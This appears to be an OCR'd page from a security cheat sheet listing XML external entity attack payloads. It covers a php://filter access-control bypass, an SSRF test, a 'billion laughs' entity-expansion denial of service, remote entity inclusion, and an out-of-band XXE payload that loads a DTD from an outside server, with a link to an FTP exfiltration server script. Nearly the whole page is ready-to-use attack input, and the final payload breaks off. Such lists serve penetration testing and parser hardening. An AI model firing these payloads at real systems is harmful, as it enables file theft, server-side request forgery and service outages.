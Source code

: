     **Access Control bypass (loading restricted resources - PHP example)**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
    <foo><result>&ac;</result></foo>
    ```

    **SSRF Test**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>
    ```

    **XEE (XML Entity Expansion - DOS)**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

    **XEE #2 (Remote attack - through external xml inclusion)**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]>
    <lolz><lol>3..2..1...&test<lol></lolz>

    ```

    **XXE FTP HTTP Server**

    https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb

    http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html

    ```xml
    <!DOCTYPE data [
    <!ENTITY % remote SYSTEM "<http://publicServer.com/parameterEntity_sendftp.dtd>">
    %remote;
    %send;
    ]>
    <data>4</data>
